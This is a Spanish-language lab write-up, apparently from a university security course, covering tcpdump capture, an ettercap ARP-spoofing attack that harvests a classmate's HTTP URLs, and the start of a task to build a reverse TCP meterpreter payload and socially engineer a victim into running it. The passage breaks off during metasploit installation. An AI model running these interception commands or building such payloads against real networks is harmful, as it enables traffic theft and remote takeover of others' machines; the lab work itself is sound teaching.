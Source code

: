 Para capturar el tráfico legítimo de nuestra máquina usaremos el comando tcpdump:

```shell
apt install tcpdump
```

Y almacenamos paquetería en un archivo:

```shell
tcpdump -w mitrafico.pcap
```

Tras terminas en nuestra máquina recibimos una copia del archivo con:

```shell
scp lsi@ip:/home/lsi/Escritorio/mitrafico.pcap C:/Directiorio/Destino
```

Y lo analizamos con la herramienta Wireshark.

Para emplear esta herramienta debemos instalar (preferiblemente) la última versión del programa (en nuestro caso mediante el instalador para Windows)

##### f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima. 

Ejecutamos ettercap:

```shell
ettercap -i ens33 -Tq -P remote_browser -w /home/lsi/Escritorio/archivo.cap -M arp:remote /ip compañero// /ip router//
```

mientras el compañero navega con el navegador lynx y emplea los comandos curl y wget:

```shell
 wget http://www.squid-cache.org/Images/img4.jpg
```

Tras terminar el ataque en nuestra máquina recibimos una copia del archivo con:

```shell
scp lsi@ip:/home/lsi/Escritorio/archivo.cap C:/Directiorio/Destino
```

Y lo analizamos con la herramienta Wireshark.

##### g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute. 

Descargamos e instalamos el instalador:

```shell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```

```shell
chmod +x msfinstall #damos permisos de ejecución al script
```
